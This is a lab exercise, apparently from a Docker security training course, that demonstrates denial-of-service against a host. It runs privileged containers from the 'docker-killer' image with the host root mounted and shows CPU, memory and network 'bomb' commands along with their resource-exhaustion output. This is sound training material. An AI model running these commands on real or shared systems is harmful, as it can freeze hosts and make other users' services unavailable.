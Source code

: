 ## Denial of Service

## Please Note: VM might freeze/crash for these exercises.

###### A malicious user with access to docker can consume host-resources such as CPU, Memory and Network by launching a malicious container. This can cause a Denial-of-Service attack making other services inaccessible.

##### Step 1:

* Open Terminal

![](img/Open-Terminal.png)


### CPU Bomb

##### Step 1:

*  Run `docker run --rm -ti --privileged -v /:/rootfs -e "TIMEOUT=5"  monitoringartist/docker-killer cpubomb`

```commandline
root@we45:~# docker run --rm -ti --privileged -v /:/rootfs -e "TIMEOUT=5"  monitoringartist/docker-killer cpubombcpubomb - duration 5s
Test: excessive CPU utilization - one proces per processor with empty cycles
CPU:  90% usr  10% sys   0% nic   0% idle   0% io   0% irq   0% sirq
CPU: 100% usr   0% sys   0% nic   0% idle   0% io   0% irq   0% sirq
CPU: 100% usr   0% sys   0% nic   0% idle   0% io   0% irq   0% sirq
CPU: 100% usr   0% sys   0% nic   0% idle   0% io   0% irq   0% sirq
CPU:  98% usr   1% sys   0% nic   0% idle   0% io   0% irq   0% sirq
/test.sh: line 101:     6 Killed                  timeout -t ${TIMEOUT} -s KILL bash -c $@    
```


### Memory Bomb

##### Step 1:

* Run `docker run --rm -ti --privileged -v /:/rootfs -e "TIMEOUT=5" monitoringartist/docker-killer membomb`

```commandline
root@we45:~# docker run --rm -ti --privileged -v /:/rootfs -e "TIMEOUT=5" monitoringartist/docker-killer membomb
membomb - duration 5s
Test: excessive memory (RAM+swap) utilization
Mem: 1180028K used, 869832K free, 2900K shrd, 70124K buff, 575144K cached
Mem: 1704688K used, 345172K free, 2900K shrd, 70124K buff, 575144K cached
Mem: 1984284K used, 65576K free, 2688K shrd, 9100K buff, 253900K cached
Mem: 1993548K used, 56312K free, 2680K shrd, 96K buff, 69932K cached
Mem: 1994392K used, 55468K free, 2680K shrd, 244K buff, 52960K cached
/test.sh: line 101:     6 Killed                  timeout -t ${TIMEOUT} -s KILL bash -c $@
```   

### Network Bomb

##### Step 1:

* Run `docker run --rm -ti --privileged -v /:/rootfs -e "TIMEOUT=5" monitoringartist/docker-killer netbomb`



##### Stop all running docker containers

* Run `clean-docker` to stop all the containers

```commandline
root@we45:~$ clean-docker
```